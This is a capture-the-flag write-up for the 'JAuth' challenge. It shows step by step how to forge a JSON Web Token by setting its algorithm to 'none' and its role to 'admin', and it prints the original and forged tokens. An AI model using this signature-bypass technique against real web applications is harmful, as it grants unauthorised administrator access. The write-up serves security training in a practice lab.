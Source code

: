 
### JAuth
Description \
Most web application developers use third party components without testing their security. Some of the past affected companies are: \
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638 \
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used \
VerticalScope (internet media company) - outdated version of vBulletin forum software used \
Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin? \
You can login as test with the password Test123! to get started.
1. Enter the login credential \
Username: test \ 
Password: Test123!
2. Inspect the page -> Application -> Cookies
```
token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzM2MTAyODI0OTExLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzEuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzM2MTAyODI1fQ.-ipeEkWLWDyizwj4gxQFoFZo_IfaGbxgEKlPSF_8ZmQ
```
3. Copy and paste the token into https://token.dev/ as the JWT string
```
Header
{
  "typ": "JWT",
  "alg": "HS256"
}

Payload
{
  "auth": 1736102824911,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1736102825
}
```
4. Change the following information
alg -> "none"
role -> "admin"
Get the new JWT string
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzM2MTAyODI0OTExLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzEuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTczNjEwMjgyNX0
```
5. Paste into the token value in the website, add the '.' in the end of the string
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzM2MTAyODI0OTExLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzEuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTczNjEwMjgyNX0.
```
6. Just refresh the page to get the CTF

